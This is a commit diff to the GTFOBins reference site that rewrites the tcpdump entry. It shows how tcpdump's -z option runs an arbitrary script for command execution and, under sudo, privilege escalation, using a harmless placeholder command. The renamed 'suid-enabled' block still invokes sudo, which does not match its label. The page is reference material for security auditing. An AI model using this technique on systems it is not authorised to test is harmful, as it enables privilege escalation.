

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tcpdump.md, in a window 1280 px wide. Shown: the top 703 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix and simplify tcpdump

```diff
--- a/_gtfobins/tcpdump.md
+++ b/_gtfobins/tcpdump.md
@@ -1,9 +1,17 @@
 ---
 functions:
   execute-non-interactive:
-    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
-            tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root
-  sudo-enabled:
-    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
-            sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root
+    - code: |
+        COMMAND='id > /tmp/output'
+        TF=$(mktemp -u)
+        echo "$COMMAND" > $TF
+        chmod +x $TF
+        tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
+  suid-enabled:
+    - code: |
+        COMMAND='id > /tmp/output'
+        TF=$(mktemp -u)
+        echo "$COMMAND" > $TF
+        chmod +x $TF
+        sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
 ---
```
